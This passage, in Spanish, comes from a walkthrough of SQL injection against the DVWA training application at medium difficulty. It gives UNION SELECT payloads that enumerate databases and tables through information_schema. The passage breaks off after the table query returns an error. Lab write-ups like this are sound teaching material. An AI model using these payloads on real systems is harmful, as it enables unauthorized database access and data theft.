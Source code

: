 Podemos apreciar que nos marca un error, por lo que quiere decir que hay 2 columnas que se están devolviendo y no 3.

<br>

Ahora toca averiguar cuáles son las bases de datos existentes, por lo que haremos uso del método que ya conocemos:

`id=1 UNION SELECT GROUP_CONCAT(schema_name), NULL FROM information_schema.schemata -- -`

Y vemos que nos responde las bases de datos:

![databases](/assets/images/DVWA-SQLi/SQLi-medium/databases.png)

Y estas bases de datos son:

- information_schema
- dvwa

<br>

Como sabemos nos llama la atención la de nombre dvwa, por lo que crearemos una consulta para enumerar sus tablas:

`id=1 UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema = 'dvwa' -- -`

Este método es el que usamos en este tipo de inyecciones SQL basadas en errores, pero en este caso vemos la siguiente respuesta:

![err](/assets/images/DVWA-SQLi/SQLi-medium/err.png)
